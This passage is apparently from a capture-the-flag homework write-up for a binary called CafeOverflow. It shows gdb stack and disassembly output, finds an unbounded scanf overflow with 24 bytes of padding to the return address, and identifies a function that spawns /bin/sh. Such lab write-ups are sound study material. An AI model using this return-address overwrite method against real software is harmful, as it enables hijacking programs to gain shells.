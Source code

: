    ```
      0x401255 <main+143>:	mov    rsi,rax
      0x401258 <main+146>:	lea    rdi,[rip+0xde1]        # 0x402040
      0x40125f <main+153>:	mov    eax,0x0
      0x401264 <main+158>:	call   0x401050 <printf@plt>
   [------------------------------------stack-------------------------------------]
   0000| 0x7fffffffe570 ("AAAAAAAA")
   0008| 0x7fffffffe578 --> 0x0
   0016| 0x7fffffffe580 --> 0x401280 (<__libc_csu_init>:	endbr64)
   0024| 0x7fffffffe588 --> 0x7ffff7a05b97 (<__libc_start_main+231>:	mov    edi,eax)
   0032| 0x7fffffffe590 --> 0x1
   0040| 0x7fffffffe598 --> 0x7fffffffe668 --> 0x7fffffffe847 ("/root/mhsuab/Desktop/ComputerSecurity2020/hw0/pwn/CafeOverflow")
   0048| 0x7fffffffe5a0 --> 0x100008000
   0056| 0x7fffffffe5a8 --> 0x4011c6 (<main>:	push   rbp)
   [------------------------------------------------------------------------------]
   Legend: code, data, rodata, value
   0x0000000000401251 in main ()
   ```

   Input `AAAAAAAA` to observer the stack. Find that the start address of the input is `0x7fffffffe570` and, as `scanf` use `%s` specifier, it accept **any number** of *non-whitespace* characters, stopping at the first whitespace. Also, find that the address of **RBP** is `0x7fffffffe580` and the **return address** at `0x7fffffffe588`. Therefore, pad `0x7fffffffe588 - 0x7fffffffe570 = 24` characters to overwrite **RBP**, add a *target address* after it to overwrite the **return address** and jump to our destination *address*.

3. List out all the functions and find an interesting function `func1`.

   ```
   disas func1
   Dump of assembler code for function func1:
      0x0000000000401176 <+0>:	push   rbp
      0x0000000000401177 <+1>:	mov    rbp,rsp
      0x000000000040117a <+4>:	sub    rsp,0x10
      0x000000000040117e <+8>:	mov    rax,rax
      0x0000000000401181 <+11>:	mov    QWORD PTR [rbp-0x8],rax
      0x0000000000401185 <+15>:	movabs rax,0xcafecafecafecafe
      0x000000000040118f <+25>:	cmp    QWORD PTR [rbp-0x8],rax
      0x0000000000401193 <+29>:	jne    0x4011b7 <func1+65>
      0x0000000000401195 <+31>:	lea    rdi,[rip+0xe68]        # 0x402004 ("Here you go")
      0x000000000040119c <+38>:	call   0x401030 <puts@plt>
      0x00000000004011a1 <+43>:	lea    rdi,[rip+0xe68]        # 0x402010 --> 0x68732f6e69622f ('/bin/sh')
      0x00000000004011a8 <+50>:	call   0x401040 <system@plt>
      0x00000000004011ad <+55>:	mov    edi,0x0
      0x00000000004011b2 <+60>:	call   0x401080 <exit@plt>
      0x00000000004011b7 <+65>:	lea    rdi,[rip+0xe5a]        # 0x402018
      0x00000000004011be <+72>:	call   0x401030 <puts@plt>
      0x00000000004011c3 <+77>:	nop
      0x00000000004011c4 <+78>:	leave
      0x00000000004011c5 <+79>:	ret
   End of assembler dump.
   ```
